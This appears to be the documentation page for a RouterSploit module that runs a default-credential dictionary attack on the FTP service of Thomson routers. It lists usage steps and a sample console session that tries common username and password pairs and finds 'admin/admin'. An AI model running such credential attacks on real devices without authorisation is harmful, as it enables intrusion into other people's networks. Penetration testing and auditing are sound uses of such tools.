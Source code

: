 ## Description

Module performs dictionary attack with default credentials against Thomson Router FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/routers/thomson/ftp_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/thomson/ftp_default_creds
rsf (Thomson Router Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Thomson Router Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
